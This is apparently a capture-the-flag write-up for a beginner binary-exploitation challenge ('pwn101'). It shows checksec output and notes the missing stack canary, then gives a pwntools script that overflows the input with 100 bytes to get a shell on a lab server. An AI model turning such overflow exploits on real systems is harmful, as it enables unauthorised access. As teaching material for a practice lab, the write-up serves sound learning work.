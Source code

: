 ## Challenge 1
- Analyzing the binary. This includes static as well as dynamic analysis(if needed)
```sh
checksec pwn101
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
- Running the file we are given with a prompt where we have to enter some values
`Type the required ingredients to make briyani:`
- As we can see there is no stack canary so there might be a possibility of a buffer overflow, so let's see if we can make the program to return a segfault, by passing a long string.
`Thanks, Here's a small gift for you`
- Oh this was easy just like that it gives a shell. Writing a script for performing same on the server

```python
from pwn import *

binary = context = ELF("./pwn101-1644307211706.pwn101", checksec=False)

if args.REMOTE:
    p = remote('10.10.183.86', 9001)
else:
    p = process(binary.path)

payload = b"A"*100
p.sendline(payload)
p.interactive()

# run this by python3 chal1.py REMOTE
```
- And by this we can get the flag as we get the shell.
